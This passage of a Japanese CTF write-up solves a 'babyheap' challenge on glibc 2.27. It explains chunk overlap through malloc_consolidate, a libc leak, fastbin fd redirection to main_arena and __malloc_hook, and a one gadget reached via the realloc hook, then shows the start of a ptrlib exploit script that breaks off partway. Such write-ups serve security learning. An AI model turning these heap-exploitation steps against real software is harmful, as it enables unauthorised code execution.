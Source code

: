 ```python
for i in range(10, 15):
    allocate(0x48)
delete(9)
for i in range(1, 7):
    delete(i)
delete(0) # linked to fastbin
delete(8) # linked to fastbin
# now top->size == 0x31
allocate(0x38)
```
ここでindex=8のチャンクは最初にmalloc_consolidateしてindex=7を確保した直後のunsorted binから取った場所です。一方index=0はconsolidateしたfastbin群の直後にあった場所なので、prev_inuseは0でprev_sizeは0x2b0になっています。したがって、malloc_consolidateが呼ばれると、index=0のチャンクを見てprev_inuseが0になっていることと、prev_sizeが0x2b0なことからindex=8のチャンクを参照します。ここはprev_inuseが1になっているのでconsolidateされてunsorted binができます。そしてunsorted binとなった場所にはindex=10〜14のチャンクがあるのでoverlapしています。
こうして無事libcのアドレスが得られたので、次はRIPを制御する方法を考えましょう。
0x58までしか確保できないので直接fdをmalloc hook等に向けることはできません。そこで一旦main arenに向けます。overlapしたチャンクを2つ（サイズ0x20, 0x50）を用意し、前者はfdを0x51に、後者はfdをmain_arena + 8に向けます。そうすればmain_arena+8が使われる際に正しいサイズが用意されているので落ちません。
さて、これで任意のサイズで任意のアドレスを返すことができますが、やはり0x58までしか確保できないので`__free_hook`も`__malloc_hook`もそのままでは使えません。
と思ったのですが、topはサイズチェックがカスなので`__malloc_hook`前にあるアドレスをサイズとして認識させることができます。
あとはone gadgetを実行するだけですが、適切なone gadgetが存在しません。そのためのsvc_runということで、こちらを経由してrealloc hookからone gadgetを呼びましょう。
```python
from ptrlib import *

def allocate(size):
    sock.sendlineafter(": ", "1")
    sock.sendlineafter(": ", str(size))
    return
def update(index, data):
    sock.sendlineafter(": ", "2")
    sock.sendlineafter(": ", str(index))
    sock.sendlineafter(": ", str(len(data)))
    sock.sendafter(": ", data)
    return
def delete(index):
    sock.sendlineafter(": ", "3")
    sock.sendlineafter(": ", str(index))
    return
def view(index):
    sock.sendlineafter(": ", "4")
    sock.sendlineafter(": ", str(index))
    sock.recvuntil(": ")
    return sock.recvline()

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
sock = Process("./babyheap", env={"LD_LIBRARY_PATH": "./"})
libc_main_arena = 0x3ebc40
libc_one_gadget = 0x4f322

# evict tcache
for i in range(7):
    allocate(0x28)
    update(i, 'A' * 0x28) # make it fast to shrink top
for i in range(7):
    delete(i)
for i in range(7):
    allocate(0x48)
    update(i, 'B' * 0x48)
for i in range(7):
    delete(i)
# now top->size == 0x1000

# allocate chunks for overlap
```